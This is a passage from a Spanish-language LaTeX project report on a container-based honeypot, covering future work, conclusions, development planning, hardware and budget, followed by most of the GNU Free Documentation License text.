      
\includegraphics[scale=0.3]{images/ElasticPiePasswors}
    \caption{Contraseñas más utilizadas en los intentos de inicio de sesión en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017}
    \label{fig:data-pie-passwords}
  \end{sidewaysfigure}

  \begin{sidewaysfigure}[h]
    \centering
      
\includegraphics[scale=0.3]{images/ElasticPiePasswordSuccessful}
    \caption{Contraseñas que tuvieron exito en los intentos de inicio de sesión en el periodo del 4 de Junio de 2017 al 2 de septiembre de 2017}
    \label{fig:data-pie-passwords-successful}
  \end{sidewaysfigure}
  
  
  
\chapter{Trabajo futuro y conclusiones}
\section{Trabajo futuro}
\label{sec:trabajo-futuro}

De cara al trabajo futuro hay muchisimas líneas de actuación en diversas categorias, desde mejorar la estabilidad 
y escalabilidad del sistema, aumentar el número de sondas, protocolos y sistemas operativos a exponer, o 
mejorar la presentación de los datos mejorando la API para incluir otros formatos y una busqueda más precisa de incidentes.

\subsubsection{Mejora de la escalabilidad de la plataforma.}

Habría que realizar un desembolso economico importante en horas de trabajo y servidores para separar los servicios expuestos
en \ref{fig:arquitectura-recolector} que son desplegados actualmente en un sólo servidor en varios servidores que creciesen
de manera horizontal atendiendo a la carga. Esto posiblemente involucraria el despliegue de un sistema de colas, como se analizo
en \ref{subsubsec:notificaciones-colas}.

El proceso de provisión y configuración también debería mejorar para acomodarse a esta nueva situación y pasar de utilizar \emph{Ansible}
en un enfoque de \emph{PhoenixServers} a imagenes inmutables con una \emph{pipeline} de \emph{CI/CD}.

\subsubsection{Extracción de ficheros en las sondas.}

Además de extraer información de las trazas sobre actividad segun el protocolo seria interesante poder extraer el contenido de disco del \emph{container},
en nuestro caso quizá la opción más simple para incorporar esta funcionalidad sería la de crear un registro privado de \emph{containers}, y al detectar 
una intrusión a la vez que se notifica la alerta guardar esta versión del container como una nueva imágen en el registro.

Luego en la API se podría añadir la dirección del registro privado y permitir al usuario descargar el \emph{container} para su analisis bajo su responsabilidad. 
    Mantener este tipo de registros privados de \emph{containers} involucra cierta complejidad especialmente si la base de usuarios es elevada, elementos como
una \emph{CDN} y almacenamiento que crece de manera dinamica serían necesarios para la supervivencia del proyecto. Desarrollar y mantener esta funcionalidad
es costoso en tiempo de desarrollo y/o en pago a terceros que ofrecen estas soluciones.

\subsubsection{Más protocolos.}

Seria interesante tambien ofrecer otras sondas con otros protocolos y aplicaciones (servidores web, caches distribuidas, etc) de la que poder extraer información de otro
tipo de ataques. Añadir nuevos protocolos y sondas solo elevaría el coste economico de la partida de servidores, ya que en el estado actual del proyecto no sería 
complejo añadir nuevas sondas y protocolos.

\subsubsection{Sondas de Windows.}

Seria interesante incorporar aplicaciones \emph{Windows} en nuestro parqué de sondas, para ello habría que analizar y construir un sistema de recolección de trazas
para \emph{Windows} al igual que se ha realizado en \ref{sec:analisis-sonda}.

Dicho análisis y desarrollo de la solución requeriria una inversión en tiempo de investigación y ejecución de varios meses y un incremento en la partida de servidores en el aspecto economico, 
pero proporcionaria información muy relevante dado que muchos sistemas criticos (hospitales, bancos, \ldots) utilizan dichos sistemas.


\subsubsection{Monetización}

Es posible la monetización del proyecto, quizás vendiendo \emph{feeds} personalizados a instituciones relevantes. Sin embargo, en el estado actual de desarrollo del proyecto
sería más fácil intentar integrar el proyecto en soluciones de inteligencia de seguridad informatica ya disponibles, que ya incorporen las partes que faltan a este proyecto
(visualizaciones atractivas vía dashboard, gestión de clientes y otros \ldots).

\section{Conclusiones}

El presente proyecto en su estado actual cumple los requisitos de diseño enumerados en la sección \ref{sec:requisitos-de-disenyo}, sin embargo,
la potencia del modelo de \emph{honeypot} con \emph{containers} es solo explorada superficialmente en este proyecto, seria muy interesante continuar
las lineas descritas en la sección \ref{sec:trabajo-futuro} para seguir explorandolo, si se contase con la financiación adecuada.

Este proyecto ha sido un enorme proceso de aprendizaje personal al autor, que ha aplicado para su consecución ademas de conocimiento tecnico, todo lo aprendido
en gestion de proyectos, gestion de expectativas y entrega continua que ha aprendido en el mundo laboral.


\chapter{Planificación y presupuesto.}
\section{Metodologia de desarrollo}

Para la realización del proyecto se ha utilizado un modelo iterativo incremental como enfoque general. Era importante definir
muy bien el conjunto de funcionalidad a incluir y la calidad minima en cada iteración sin atender a una estimación en fechas. 
Cualquier estimación se realizaba en tallas de camiseta o puntos de historia que miden la complejidad y no la duración de una tarea.

Cabe reseñar que el alumno y desarrollador del proyecto no tiene una dedicación completa al mismo, pudiendo dedicar unas 10 horas semanales
de media al proyecto. Esto tiene impacto en la duración del proyecto puesto que al tiempo inherente a cada tarea hay un tiempo
invertido en recuperar el contexto de la última sesión de trabajo que incrementa la duración del desarrollo del proyecto.


\subsection{Primera iteración: construcción del prototipo.}

En la primera iteración se basa en validar la idea del proyecto y evaluar las herramientas que utilizaremos. Para ello se construye
un prototipo creando una sonda manualmente y evaluar como se extraería información de la misma de manera automatizada.

También se exploran tecnologías para realizar la recolección y construir la API. El resultado de ésta iteración se describe en
el capitulo \ref{chapter:analisis-de-soluciones}.

\subsection{Segunda iteración: construcción de las sondas.}

El objetivo de ésta iteración es construir las sondas de manera repetible y automatizada asegurando que son estables,
seguras y resistentes y que tenemos los mecanismos necesarios para extraer información de ellas.

En esta etapa se decide:

\begin{itemize}
    \item Construir un sistema similar para las notificaciones de alertas hasta descubrir que \emph{Falco} es liberado, cuando se descarta.
    \item Utilizar \emph{Ansible} para la creación y configuración de las sondas y el resto de servicios de manera automatizada.
    \item Como se securizará la sonda de ataques y el modelo de riesgo de la sonda.
\end{itemize}

\subsection{Tercera iteración: construcción del recolector.}

Con las sondas funcionando, el siguiente paso es la extracción,almacenamiento y procesado de la información que capturan. En esta iteración
se decide utilizar \emph{Elasticsearch} como motor base de datos, se desarrollan \emph{metadata\_extractor} para recolectar y procesar las trazas, y 
la API de registro de sondas (\emph{Sinker Registry API}), también se recolectan las alertas utilizando \emph{rsyslog} y se escriben en \emph{Elasticsearch}
con \emph{Filebeat} y \emph{Logstash}.

En el apartado \ref{sec:arquitecura-del-colector} se detalla las razones y el procedimiento seguido para las implementaciones de estas funciones.

\subsection{Cuarta iteración: construcción de la API.}

Con nuestro proceso de extracción, procesado y almacenamiento de datos sólo queda trabajar en la explotacion y visualización de la misma. En ésta iteración
el enfoque es en el de construir una API de clientes \emph{Beekeeper API}, en la sección \ref{sec:arquitectura-api-clientes} se realiza
una descripción completa del sistema.

\subsection{Quinta iteración: redacción de la memoria del proyecto.}

Como dirian los anglosajones \emph{last, but not least} con el sistema funcionando y en producción solo queda la redacción de esta memoria
para dar por acabado el presente PFC.

\section{Calendarización}

En el cuadro \ref{tab:calendarizacion-pfc} puede verse el tiempo invertido en cada iteración. No se puede observar el desfase 
entre la estimación y el coste invertido porque nunca se ha estimado la duración de las tareas, sólo se ha estimado la complejidad
de las mismas.

Atendiendo a ese criterio la calendarizacion cuadra con la estimación de \emph{complejidad} del proyecto, las fases de prototipo y construcción
de la sonda serían las más complejas puesto que se alejan más del dominio de conocimiento del desarrollador del proyecto.

\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|c|l|l|c|}
    \hline
    \thead{Iteración} & \thead{Inicio} & \thead{Fin} &  \thead{Horas invertidas aprox} \\
    \hline
    \textbf{1ª} & 15/2/2016 & 21/5/2016 & 140 horas \\
    \hline
    \textbf{2ª} & 21/5/2016 & 20/5/2017 & 520 horas \\
    \hline
    \textbf{3ª} & 21/5/2017 & 21/7/2017 & 90 horas  \\
    \hline
    \textbf{4ª} & 21/7/2017 & 08/8/2017 & 20 horas  \\
    \hline
    \textbf{5ª} & 08/8/2017 & 03/9/2017 & 40 horas \\
    \hline
    \end{tabular}
    \caption{\label{tab:calendarizacion-pfc} Calendarización del proyecto }
    \end{table}

\section{Recursos inventariables}

Los recursos de \emph{hardware} utilizados para la elaboración del presente proyecto y su puesta en marcha, se detallan a continuación:

\begin{itemize}
    \item Servidor con gran capacidad de almacenamiento y procesamiento.
    \begin{itemize}
        \item CPU: Intel(R) Core(TM) i7-3770 CPU @ 3.40GHz
        \item RAM: 4 x Kingston DDR3 8GiB (32 GiB)
        \item Disco: RAID 1 por software de 2 discos TOSHIBA DT01ACA300 de 3TiB
    \end{itemize}

    \item Servidor para sonda en Alemania en el proveedor \emph{Vultr} virtualizado.
    \begin{itemize}
        \item CPU: 1 vCore
        \item RAM: 1GiB RAM.
        \item Disco: 20GiB de disco
    \end{itemize}

    \item Servidor para sonda en Holanda en el proveedor \emph{Digital Ocean} virtualizado.
    \begin{itemize}
        \item CPU: 1 vCore Intel(R) Xeon(R) CPU E5-2630L 0 @ 2.00GHz.
        \item RAM: 1GiB RAM.
        \item Disco: 30GiB de disco.
    \end{itemize}

    \item Servidor para \emph{PKI} y control en Londres en el proveedor \emph{Digital Ocean} virtualizado.
    \begin{itemize}
        \item CPU: 1 vCore Intel(R) Xeon(R) CPU E5-2630L 0 @ 2.00GHz.
        \item RAM: 1GiB RAM.
        \item Disco: 30GiB de disco.
    \end{itemize}

    \item Registro DNS de dominio para la \emph{honeypot} y la \emph{API} de clientes en \emph{Amazon Web Services} y monitorización
    externa del servicio.

\end{itemize}


\section{Presupuesto}

Para el presupuesto debemos desglosar dos conceptos fundamentales:

\begin{itemize}
    \item El coste en \emph{hardware} y servicios.
    \item El coste del personal durante el tiempo de desarrollo y mantenimiento.
\end{itemize}

Si consideramos el desarrollo \emph{acabado}, se necesitará un número de horas del personal para el mantenimiento del proyecto, 
incluyendo actualizaciones de seguridad de los servidores, gestión de incidentes, arreglo de errores etc.

En cuanto al personal tanto para el desarrollo y mantenimiento del mismo necesitamos un perfil \emph{DevSecOps}, dicho de otro modo
alguien capaz de involucrarse indistintamente en tareas de codificación, administración de servidores y tareas de seguridad. 

En el convenio colectivo de empresas de ingeniería (véase \cite{boe-convenio}) se detalla que un licenciado y/o analista cobrará un sueldo bruto de 
23.618,28 € al año. El perfil previamente descrito entraría dentro de dicha categoría profesional cifrandose el precio/hora en
14 € / hora. 

El cuadro \ref{tab:costes-totales} incluye los costes totales del proyecto y sus conceptos hasta la fecha de redacción de la presente
memoria, no se incluye el coste de mantenimiento por parte del personal. Es el alumno el que desarrolla las labores de personal, se incluyen
los costes aproximados para valorar la dimensión economica de ampliar el equipo tecnico.

\begin{table}[h]
    \centering
    \begin{tabular}[!h]{|c|c|c|}
    \hline
    \thead{Concepto} & \thead{Unidades} & \thead{precio/mes}  \\
    \hline
    Servidor en \emph{Hetzner} para recolector & 1 & 41,69 € \\
    \hline
    Servidor en \emph{Vultr} para sonda & 1 & 12 € \\
    \hline
    Servidor en \emph{Digital Ocean} para sonda & 1 & 12 € \\
    \hline
    Servidor en \emph{Digital Ocean} para \emph{PKI} y control & 1 & 12 € \\
    \hline
    Registro DNS y monitorización externa en \emph{AWS} & 1 & 10 € \\
    \hline
    \textbf{Total / mes} & - & \textbf{87,69 €} \\
    \hline
    \end{tabular}
    \caption{\label{tab:presupuesto-mensual} Tabla de costes mensual }
    \end{table}


    \begin{table}[h]
        \centering
        \begin{tabular}[!h]{|c|c|}
        \hline
        \thead{Concepto} & \thead{Precio}  \\
        \hline
        Coste del servidor para prototipo (3 meses) & 30 € \\
        \hline
        Coste de \emph{hardware} del proyecto (15 meses) & 87,69 x 15 = 1315,35 €  \\
        \hline
        Coste de desarrollo del proyecto & 810 horas x 14 €/hora =  11340 € \\
        \hline
        \textbf{Total} &  \textbf{12685,35 €} \\
        \hline
        \end{tabular}
        \caption{\label{tab:costes-totales} Tabla de costes del proyecto hasta fecha actual }
        \end{table}
    
    



%%% Local Variables: 
%%% mode: latex
%%% TeX-master: "main"
%%% End:

\appendix

\chapter{Disposiciones legales y normas aplicadas}
\section{Licencia FDL aplicable a esta memoria}
%---------------------------------------------------------------------


 \begin{center}

       Version 1.2, November 2002


 Copyright \copyright 2000,2001,2002  Free Software Foundation, Inc.
 
 \bigskip
 
     51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
  
 \bigskip
 
 Everyone is permitted to copy and distribute verbatim copies
 of this license document, but changing it is not allowed.
\end{center}


\begin{center}
{\bf\large Preamble}
\end{center}

The purpose of this License is to make a manual, textbook, or other
functional and useful document ``free'' in the sense of freedom: to
assure everyone the effective freedom to copy and redistribute it,
with or without modifying it, either commercially or noncommercially.
Secondarily, this License preserves for the author and publisher a way
to get credit for their work, while not being considered responsible
for modifications made by others.

This License is a kind of ``copyleft'', which means that derivative
works of the document must themselves be free in the same sense.  It
complements the GNU General Public License, which is a copyleft
license designed for free software.

We have designed this License in order to use it for manuals for free
software, because free software needs free documentation: a free
program should come with manuals providing the same freedoms that the
software does.  But this License is not limited to software manuals;
it can be used for any textual work, regardless of subject matter or
whether it is published as a printed book.  We recommend this License
principally for works whose purpose is instruction or reference.


\begin{center}
{\Large\bf 1. APPLICABILITY AND DEFINITIONS}
\end{center}

This License applies to any manual or other work, in any medium, that
contains a notice placed by the copyright holder saying it can be
distributed under the terms of this License.  Such a notice grants a
world-wide, royalty-free license, unlimited in duration, to use that
work under the conditions stated herein.  The \textbf{``Document''}, below,
refers to any such manual or work.  Any member of the public is a
licensee, and is addressed as \textbf{``you''}.  You accept the license if you
copy, modify or distribute the work in a way requiring permission
under copyright law.

A \textbf{``Modified Version''} of the Document means any work containing the
Document or a portion of it, either copied verbatim, or with
modifications and/or translated into another language.

A \textbf{``Secondary Section''} is a named appendix or a front-matter section of
the Document that deals exclusively with the relationship of the
publishers or authors of the Document to the Document's overall subject
(or to related matters) and contains nothing that could fall directly
within that overall subject.  (Thus, if the Document is in part a
textbook of mathematics, a Secondary Section may not explain any
mathematics.)  The relationship could be a matter of historical
connection with the subject or with related matters, or of legal,
commercial, philosophical, ethical or political position regarding
them.

The \textbf{``Invariant Sections''} are certain Secondary Sections whose titles
are designated, as being those of Invariant Sections, in the notice
that says that the Document is released under this License.  If a
section does not fit the above definition of Secondary then it is not
allowed to be designated as Invariant.  The Document may contain zero
Invariant Sections.  If the Document does not identify any Invariant
Sections then there are none.

The \textbf{``Cover Texts''} are certain short passages of text that are listed,
as Front-Cover Texts or Back-Cover Texts, in the notice that says that
the Document is released under this License.  A Front-Cover Text may
be at most 5 words, and a Back-Cover Text may be at most 25 words.

A \textbf{``Transparent''} copy of the Document means a machine-readable copy,
represented in a format whose specification is available to the
general public, that is suitable for revising the document
straightforwardly with generic text editors or (for images composed of
pixels) generic paint programs or (for drawings) some widely available
drawing editor, and that is suitable for input to text formatters or
for automatic translation to a variety of formats suitable for input
to text formatters.  A copy made in an otherwise Transparent file
format whose markup, or absence of markup, has been arranged to thwart
or discourage subsequent modification by readers is not Transparent.
An image format is not Transparent if used for any substantial amount
of text.  A copy that is not ``Transparent'' is called \textbf{``Opaque''}.

Examples of suitable formats for Transparent copies include plain
ASCII without markup, Texinfo input format, LaTeX input format, SGML
or XML using a publicly available DTD, and standard-conforming simple
HTML, PostScript or PDF designed for human modification.  Examples of
transparent image formats include PNG, XCF and JPG.  Opaque formats
include proprietary formats that can be read and edited only by
proprietary word processors, SGML or XML for which the DTD and/or
processing tools are not generally available, and the
machine-generated HTML, PostScript or PDF produced by some word
processors for output purposes only.

The \textbf{``Title Page''} means, for a printed book, the title page itself,
plus such following pages as are needed to hold, legibly, the material
this License requires to appear in the title page.  For works in
formats which do not have any title page as such, ``Title Page'' means
the text near the most prominent appearance of the work's title,
preceding the beginning of the body of the text.

A section \textbf{``Entitled XYZ''} means a named subunit of the Document whose
title either is precisely XYZ or contains XYZ in parentheses following
text that translates XYZ in another language.  (Here XYZ stands for a
specific section name mentioned below, such as \textbf{``Acknowledgements''},
\textbf{``Dedications''}, \textbf{``Endorsements''}, or \textbf{``History''}.)  
To \textbf{``Preserve the Title''}
of such a section when you modify the Document means that it remains a
section ``Entitled XYZ'' according to this definition.

The Document may include Warranty Disclaimers next to the notice which
states that this License applies to the Document.  These Warranty
Disclaimers are considered to be included by reference in this
License, but only as regards disclaiming warranties: any other
implication that these Warranty Disclaimers may have is void and has
no effect on the meaning of this License.


\begin{center}
{\Large\bf 2. VERBATIM COPYING}
\end{center}

You may copy and distribute the Document in any medium, either
commercially or noncommercially, provided that this License, the
copyright notices, and the license notice saying this License applies
to the Document are reproduced in all copies, and that you add no other
conditions whatsoever to those of this License.  You may not use
technical measures to obstruct or control the reading or further
copying of the copies you make or distribute.  However, you may accept
compensation in exchange for copies.  If you distribute a large enough
number of copies you must also follow the conditions in section 3.

You may also lend copies, under the same conditions stated above, and
you may publicly display copies.


\begin{center}
{\Large\bf 3. COPYING IN QUANTITY}
\end{center}


If you publish printed copies (or copies in media that commonly have
printed covers) of the Document, numbering more than 100, and the
Document's license notice requires Cover Texts, you must enclose the
copies in covers that carry, clearly and legibly, all these Cover
Texts: Front-Cover Texts on the front cover, and Back-Cover Texts on
the back cover.  Both covers must also clearly and legibly identify
you as the publisher of these copies.  The front cover must present
the full title with all words of the title equally prominent and
visible.  You may add other material on the covers in addition.
Copying with changes limited to the covers, as long as they preserve
the title of the Document and satisfy these conditions, can be treated
as verbatim copying in other respects.

If the required texts for either cover are too voluminous to fit
legibly, you should put the first ones listed (as many as fit
reasonably) on the actual cover, and continue the rest onto adjacent
pages.

If you publish or distribute Opaque copies of the Document numbering
more than 100, you must either include a machine-readable Transparent
copy along with each Opaque copy, or state in or with each Opaque copy
a computer-network location from which the general network-using
public has access to download using public-standard network protocols
a complete Transparent copy of the Document, free of added material.
If you use the latter option, you must take reasonably prudent steps,
when you begin distribution of Opaque copies in quantity, to ensure
that this Transparent copy will remain thus accessible at the stated
location until at least one year after the last time you distribute an
Opaque copy (directly or through your agents or retailers) of that
edition to the public.

It is requested, but not required, that you contact the authors of the
Document well before redistributing any large number of copies, to give
them a chance to provide you with an updated version of the Document.


\begin{center}
{\Large\bf 4. MODIFICATIONS}
\end{center}

You may copy and distribute a Modified Version of the Document under
the conditions of sections 2 and 3 above, provided that you release
the Modified Version under precisely this License, with the Modified
Version filling the role of the Document, thus licensing distribution
and modification of the Modified Version to whoever possesses a copy
of it.  In addition, you must do these things in the Modified Version:

\begin{itemize}
\item[A.] 
   Use in the Title Page (and on the covers, if any) a title distinct
   from that of the Document, and from those of previous versions
   (which should, if there were any, be listed in the History section
   of the Document).  You may use the same title as a previous version
   if the original publisher of that version gives permission.
   
\item[B.]
   List on the Title Page, as authors, one or more persons or entities
   responsible for authorship of the modifications in the Modified
   Version, together with at least five of the principal authors of the
   Document (all of its principal authors, if it has fewer than five),
   unless they release you from this requirement.
   
\item[C.]
   State on the Title page the name of the publisher of the
   Modified Version, as the publisher.
   
\item[D.]
   Preserve all the copyright notices of the Document.
   
\item[E.]
   Add an appropriate copyright notice for your modifications
   adjacent to the other copyright notices.
   
\item[F.]
   Include, immediately after the copyright notices, a license notice
   giving the public permission to use the Modified Version under the
   terms of this License, in the form shown in the Addendum below.
   
\item[G.]
   Preserve in that license notice the full lists of Invariant Sections
   and required Cover Texts given in the Document's license notice.
   
\item[H.]
   Include an unaltered copy of this License.
   
\item[I.]
   Preserve the section Entitled ``History'', Preserve its Title, and add
   to it an item stating at least the title, year, new authors, and
   publisher of the Modified Version as given on the Title Page.  If
   there is no section Entitled ``History'' in the Document, create one
   stating the title, year, authors, and publisher of the Document as
   given on its Title Page, then add an item describing the Modified
   Version as stated in the previous sentence.
   
\item[J.]
   Preserve the network location, if any, given in the Document for
   public access to a Transparent copy of the Document, and likewise
   the network locations given in the Document for previous versions
   it was based on.  These may be placed in the ``History'' section.
   You may omit a network location for a work that was published at
   least four years before the Document itself, or if the original
   publisher of the version it refers to gives permission.
   
\item[K.]
   For any section Entitled ``Acknowledgements'' or ``Dedications'',
   Preserve the Title of the section, and preserve in the section all
   the substance and tone of each of the contributor acknowledgements
   and/or dedications given therein.
   
\item[L.]
   Preserve all the Invariant Sections of the Document,
   unaltered in their text and in their titles.  Section numbers
   or the equivalent are not considered part of the section titles.
   
\item[M.]
   Delete any section Entitled ``Endorsements''.  Such a section
   may not be included in the Modified Version.
   
\item[N.]
   Do not retitle any existing section to be Entitled ``Endorsements''
   or to conflict in title with any Invariant Section.
   
\item[O.]
   Preserve any Warranty Disclaimers.
\end{itemize}

If the Modified Version includes new front-matter sections or
appendices that qualify as Secondary Sections and contain no material
copied from the Document, you may at your option designate some or all
of these sections as invariant.  To do this, add their titles to the
list of Invariant Sections in the Modified Version's license notice.
These titles must be distinct from any other section titles.

You may add a section Entitled ``Endorsements'', provided it contains
nothing but endorsements of your Modified Version by various
parties--for example, statements of peer review or that the text has
been approved by an organization as the authoritative definition of a
standard.

You may add a passage of up to five words as a Front-Cover Text, and a
passage of up to 25 words as a Back-Cover Text, to the end of the list
of Cover Texts in the Modified Version.  Only one passage of
Front-Cover Text and one of Back-Cover Text may be added by (or
through arrangements made by) any one entity.  If the Document already
includes a cover text for the same cover, previously added by you or
by arrangement made by the same entity you are acting on behalf of,
you may not add another; but you may replace the old one, on explicit
permission from the previous publisher that added the old one.

The author(s) and publisher(s) of the Document do not by this License
give permission to use their names for publicity for or to assert or
imply endorsement of any Modified Version.


\begin{center}
{\Large\bf 5. COMBINING DOCUMENTS}
\end{center}


You may combine the Document with other documents released under this
License, under the terms defined in section 4 above for modified
versions, provided that you include in the combination all of the
Invariant Sections of all of the original documents, unmodified, and
list them all as Invariant Sections of your combined work in its
license notice, and that you preserve all their Warranty Disclaimers.

The combined work need only contain one copy of this License, and
multiple identical Invariant Sections may be replaced with a single
copy.  If there are multiple Invariant Sections with the same name but
different contents, make the title of each such section unique by
adding at the end of it, in parentheses, the name of the original
author or publisher of that section if known, or else a unique number.
Make the same adjustment to the section titles in the list of
Invariant Sections in the license notice of the combined work.

In the combination, you must combine any sections Entitled ``History''
in the various original documents, forming one section Entitled
``History''; likewise combine any sections Entitled ``Acknowledgements'',
and any sections Entitled ``Dedications''.  You must delete all sections
Entitled ``Endorsements''.

\begin{center}
{\Large\bf 6. COLLECTIONS OF DOCUMENTS}
\end{center}

You may make a collection consisting of the Document and other documents
released under this License, and replace the individual copies of this
License in the various documents with a single copy that is included in
the collection, provided that you follow the rules of this License for
verbatim copying of each of the documents in all other respects.

You may extract a single document from such a collection, and distribute
it individually under this License, provided you insert a copy of this
License into the extracted document, and follow this License in all
other respects regarding verbatim copying of that document.


\begin{center}
{\Large\bf 7. AGGREGATION WITH INDEPENDENT WORKS}
\end{center}


A compilation of the Document or its derivatives with other separate
